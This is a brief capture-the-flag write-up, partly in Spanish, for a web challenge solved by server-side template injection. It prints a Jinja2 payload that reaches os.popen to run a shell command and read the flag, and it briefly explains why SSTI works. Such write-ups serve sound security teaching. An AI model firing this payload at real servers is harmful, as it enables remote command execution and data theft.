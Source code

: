 ## Descripción 
I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.
## Hints
1. Server Side Template Injection
## Solución
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

```
## Notas
SSTI ocurre cuando una entrada del usuario se renderiza directamente en una plantilla del servidor; así puedes inyectar expresiones que el motor de plantillas evaluará en el servidor.
## Referencias
